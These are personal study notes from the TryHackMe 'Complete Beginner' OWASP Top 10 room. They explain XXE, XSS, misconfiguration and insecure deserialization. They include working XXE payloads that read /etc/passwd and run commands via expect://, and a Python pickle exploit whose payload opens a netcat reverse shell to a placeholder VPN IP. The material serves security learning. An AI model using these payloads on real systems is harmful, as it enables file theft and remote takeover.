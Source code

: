 # TryHackMe: Complete Beginner

* **author**:: Nathan Acks  
* **date**:: 2021-10-06

## OWASP Top 10

### (Severity 04) XML External Entity

As with injection attacks, XML external entity (XXE) attacks are broken down into two types: in-band (analogous us to active injection attacks) and out-of-band (OOB-XXE or "blind" XXE, which are of course analogous to blind injection attacks).

The encoding/version bit of an XML document is called the "prolog".

```xml
<?xml version="1.0" encoding="UTF-8"?>
```

Also, there is one and only one root element in an XML document. And XML is case-sensitive. Whee!

DTDs look very XML-like themselves. Using the actual example from TryHackMe, this DTD:

```dtd
<!DOCTYPE note [
	<!ELEMENT note (to, from, heading, body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

Defines this XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>foo</to>
    <from>bar</from>
    <heading>baz</heading>
    <body>etc.</body>
</note>
```

(`#PCDATA` indicates "parsable character data" - an XML-encoded string.) 

There are three basic important XML bits here:

* `!DOCTYPE` defines the document type *and* the root element.
* `!ELEMENT` defines additional elements (so if I understand this correctly, a !DOCTYPE declaration must contain at least one !ELEMENT with the same name).
* `!ENTITY` defines entities like `&gt;` - basically shortcuts for other data. There seems to be a lot more to XML entities than just this though…

The SYSTEM keyword can be included in !ENTITY declarations (or in the XML document !DOCTYPE declaration), and means "read this from the current system".

Basically, you can think of the bit between the brackets (`[]`) in the DTD as getting slotted into the URI specifying the DTD in the XML !DOCTYPE. In fact, we can insert additional document type definitions into the end of a !DOCTYPE statement in this way; combining this with the SYSTEM declaration can allow us to read any files the webserver has access to.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd">]>
<root>&read;</root>
```

This basically strikes me as more-or-less the same thing as an injection attack, just that we're targeting the XML parser rather than the website code.

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

It looks like this is something that would be more commonly attacked over an API than directly through a web front-end.

* [2021-10-05 — TryHackMe: Complete Beginner](2021-10-05-tryhackme-complete-beginner.md)
* [ENTITY Declaration](https://xmlwriter.net/xml_guide/entity_declaration.shtml)
* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

### (Severity 06) Security Misconfiguration

Basically, this about the use of defaults or bad configurations of existing security controls, whereas "broken access control" (which didn't really include anything worth noting explicitly) is about missing or non-functional controls.

### (Severity 07) Cross-Site Scripting

Three varieties:

* Stored XSS (saved to the website database)
* Reflected XSS (included in the user request, for example via a malicious link)
* [DOM-Based XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting#DOM_Based_XSS_.28AKA_Type-0.29) (a little unclear what this is, but it looks like it's basically similar to a reflection attack except that everything happens client-side)

[XSS-Payloads is a library of potentially useful XSS tools.](http://www.xss-payloads.com/)

Mostly, this is about injecting `<script/>` tags.

### (Severity 08) Insecure Deserialization

Basically, this is about trusting user-provided input to determine state.

On the low end, this can be something like using a cookie to determine user privileges.

But on the high end, if the application is actually *executing* data provided by the user *as code*.

So what's the difference between this and injection? (As far as I can tell) In command injection we're abusing an existing function to get the web application to run a command (system, SQL, whatever) for us, while insecure deserialization is specifically about manipulating the internal state of the application (which can include the before-mentioned data-as-code trick).

Where the name of this vulnerability starts to make more sense is when the application is encoding (serializing) objects or other data structures, storing them on the user side, and then decoding (deserializing) the structure at a later time and using / trusting it without further checks.

In the TryHackMe example we're attacking the Python pickle.loads() operation, which reconstructs objects from an encoded data stream. When an object is reconstructed it is actually fully initialized, which means that things like `object.__reduce__()` are run.

[This post is much clearer than TryHackMe when it comes to explaining how we're attacking pickle.loads().](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Anyways, the TryHackMe room has us use the following code to create a malicious base64 encoded object to feed pickle.loads() (YOUR_TRYHACKME_VPN_IP gets replaced by your VPN IP):

```python
#!/usr/bin/env python

import pickle
import sys
import base64

command =  'rm /tmp/f; '
command += 'mkfifo /tmp/f; '
command += 'cat /tmp/f | '
command += '/bin/sh -i 2>&1 | '
command += 'netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

What's getting encoded here is the `rce` class. Python will call `rce.__reduce__()` to determine how to initialize this class when pickle.loads() deserializes it, and `__reduce__()` wil return the tuple `(os.system, (command,))`, where `command` is basically our standard Metasploit reverse shell. Python then initializes the class by using os.system to call `command`, and there's our reverse shell!

(SIDE NOTE: Isn't `nc` a more common name for `netcat`? Debian provides links to both in /etc/aleternatives, but it seems best not to assume we're on a Debian system…)

* [pickle - Python object serialization](https://docs.python.org/3/library/pickle.html)

